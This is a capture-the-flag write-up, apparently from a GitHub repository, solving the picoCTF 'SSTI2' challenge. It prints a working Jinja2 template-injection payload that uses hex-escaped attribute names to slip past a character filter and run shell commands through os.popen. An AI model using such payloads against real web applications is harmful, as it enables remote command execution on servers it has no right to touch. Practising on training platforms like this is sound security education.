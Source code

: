 # SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

> https://play.picoctf.org/practice/challenge/488

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Same as [SSTI1](../SSTI1/README.md) we first try {{6*7}}

![alt text](../../../../assets/SSTI2-1.png)

![alt text](../../../../assets/SSTI2-2.png)

So it evaluated the same as before, which means its jinja2 again. So lets try the previous working solver

![alt text](../../../../assets/SSTI2-3.png)

![alt text](../../../../assets/SSTI2-4.png)

We see that it has been patched. We need to find a workaround. Browsing payloadallthethings, i found an interesting payload that is said to bypass most common filter

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

![alt text](../../../../assets/SSTI2-5.png)

![alt text](../../../../assets/SSTI2-6.png)

It worked, so now we just need to cat the flag

![alt text](../../../../assets/SSTI2-7.png)

![alt text](../../../../assets/SSTI2-8.png)